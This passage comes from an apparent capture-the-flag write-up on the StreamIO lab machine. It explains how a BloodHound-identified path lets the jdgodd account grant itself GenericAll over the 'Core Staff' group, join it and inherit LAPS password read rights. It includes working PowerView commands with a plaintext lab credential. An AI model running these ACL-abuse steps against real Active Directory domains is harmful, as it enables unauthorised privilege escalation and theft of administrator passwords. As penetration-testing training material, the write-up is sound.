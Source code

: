 ### Leveraging Permissions

This was the user that BloodHound revealed a potential privilege escalation path from, which we can now plan in more detail (Figure 37). **LAPS** is a [Windows feature](https://learn.microsoft.com/en-us/windows-server/identity/laps/laps-overview) that automatically manages and backs up the password of a local administrator account and/or [DCs ](#user-content-fn-15)[^15]on Windows Server AD environments. So, essentially, what we have here, is a way to read the `administrator` password:

1. The `jdgodd` account `owns` the `Core Staff` group, which allows the former to assign `GenericAll` permissions to itself over the latter.
2. Having `GenericAll` permissions over the group allows `jdgodd` to add itself as a member of that group.
3. Being member of `Core Staff` the `ReadLAPSPassword` is inherited to `jdgodd` and it can read the LAPS password.&#x20;

<figure><img src="../../.gitbook/assets/streamio_privesc_final.png" alt=""><figcaption><p>Figure 37: The privilege escalation path revealed by BloodHound.</p></figcaption></figure>

The `jdgodd` account does not have `CanPSRemote` permissions, so it cannot directly access the machine. However, we can use its credentials within our current session as `nikk37` to perform the first 2 steps of our plan using [PowerView](../../tools/active-directory/powerview.md).

{% code overflow="wrap" %}
```powershell
# Uploading & importing PowerView
upload PowerView.ps1
Import-Module .\PowerView.ps1
# Creating a SecureString Object for jdgodd
$SecPassword = ConvertTo-SecureString 'JDg0dd1s@d0p3cr3@t0r' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('streamio.htb\jdgodd', $SecPassword)
# Granting the GenericAll permission over Core Staff
Add-DomainObjectAcl -Credential $Cred -TargetIdentity 'Core Staff' -PrincipalIdentity jdgodd -Rights All
# Adding jdgodd to the Core Staff group
Add-DomainGroupMember -Identity 'Core Staff' -Members 'jdgodd' -Credential $Cred -Verbose 
# Confirming the user was added to the group
net group 'Core Staff'
```
{% endcode %}


[^1]: SQL Injection
[^2]: Brute Force Attack
[^3]: Local File Inclusion
[^4]: Structured Query Language Injection
[^5]: Brute Force Attack
[^6]: Local File Inclusion
[^7]: Elevation of Privileges
[^8]: Domain Controller
[^9]: Fully Qualified Domain Name
[^10]: Structured Query Language injection
[^11]: Web Application Firewall
[^12]: Database Management System
[^13]: Local File Inclusion
[^14]: Remote Code Execution
[^15]: Domain Controllers